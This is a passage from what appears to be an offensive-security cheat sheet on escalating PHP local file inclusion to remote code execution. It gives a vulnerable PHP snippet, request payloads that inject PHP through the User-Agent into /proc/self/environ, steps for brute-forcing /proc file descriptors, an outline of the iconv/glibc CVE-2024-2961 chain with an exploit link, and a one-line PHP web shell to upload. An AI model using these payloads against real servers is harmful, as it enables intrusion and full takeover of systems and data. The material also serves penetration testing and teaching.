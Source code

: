 This can be used against vulnerable code like the following.

```php
<?php
  $data = file_get_contents($_POST['url']);
  $data = json_decode($data);
  echo $data->message;
?>
```


## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)


## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```


## LFI to RCE via iconv

Use the iconv wrapper to trigger an OOB in the glibc (CVE-2024-2961), then use your LFI to read the memory regions from `/proc/self/maps` and to download the glibc binary. Finally you get the RCE by exploiting the `zend_mm_heap` structure to call a `free()` that have been remapped to `system` using `custom_heap._free`.


**Requirements**:

* PHP 7.0.0 (2015) to 8.3.7 (2024)
* GNU C Library (`glibc`) <=  2.39
* Access to `convert.iconv`, `zlib.inflate`, `dechunk` filters

**Exploit**:

* [ambionics/cnext-exploits](https://github.com/ambionics/cnext-exploits/tree/main)


## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```
